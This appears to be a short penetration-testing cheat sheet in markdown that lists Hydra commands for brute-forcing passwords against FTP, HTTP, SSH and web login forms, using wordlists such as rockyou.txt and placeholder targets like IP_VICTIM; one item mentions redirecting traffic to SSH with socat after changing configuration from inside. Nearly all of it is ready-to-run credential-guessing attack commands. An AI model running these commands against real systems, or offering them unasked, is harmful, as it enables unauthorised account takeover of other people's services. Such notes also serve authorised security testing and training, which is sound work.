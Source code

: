 -  Hydra by ftp

````shell
hydra -l user -P passwords.txt ftp://<target-ip>
````

- Hydra for http form:

```shell
hydra -l fox -P /usr/share/wordlists/rockyou.txt -u -s 80 IP_HOST http-head
```

- Brute force ssh:
	- Use it when you can perform a redirection of the traffic to the ssh port but you have modified the configuration from the inside with socat

```shell
hydra -l USER -P /usr/share/wordlists/rockyou.txt ssh://IP_VICTIM:PORT
```

- Brute force login form:

```shell
hydra -L USERFILE -P PASSWORDFILE DOMAIN/IP METHOD "REDIRECTIONURL:PARAMETERS:FAILMESSAGE:H=COOKIES"
```

